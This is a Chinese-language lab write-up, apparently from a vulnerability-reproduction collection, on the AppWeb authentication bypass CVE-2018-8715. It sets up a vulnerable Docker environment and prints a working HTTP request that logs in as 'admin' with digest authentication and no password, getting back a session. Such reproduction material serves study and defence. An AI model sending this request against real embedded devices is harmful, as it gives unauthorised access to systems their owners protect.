


# AppWeb 认证绕过漏洞（CVE-2018-8715）

AppWeb 是 Embedthis Software LLC 公司负责开发维护的一个基于 GPL 开源协议的嵌入式 Web Server。他使用 C/C++ 来编写，能够运行在几乎先进所有流行的操作系统上。当然他最主要的应用场景还是为嵌入式设备提供 Web Application 容器。

AppWeb 可以进行认证配置，其认证方式包括以下三种：

- basic 传统 HTTP 基础认证
- digest 改进版 HTTP 基础认证，认证成功后将使用 Cookie 来保存状态，而不用再传递 Authorization 头
- form 表单认证

其 7.0.3 之前的版本中，对于 digest 和 form 两种认证方式，如果用户传入的密码为 `null`（也就是没有传递密码参数），appweb 将因为一个逻辑错误导致直接认证成功，并返回 session。

参考链接：

- https://ssd-disclosure.com/index.php/archives/3676

## 漏洞环境

执行如下命令启动一个带有 digest 认证的 Appweb 7.0.1 服务器：

```
docker compose up -d
```

访问 `http://your-ip:8080`，可见需要输入账号密码。

## 漏洞复现

利用该漏洞需要知道一个已存在的用户名，当前环境下用户名为 `admin`。

构造头 `Authorization: Digest username=admin`，并发送如下数据包：

```
GET / HTTP/1.1
Host: example.com
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Authorization: Digest username=admin


```

可见，因为我们没有传入密码字段，所以服务端出现错误，直接返回了 200，且包含一个 session：



设置这个 session 到浏览器，即可正常访问需要认证的页面：


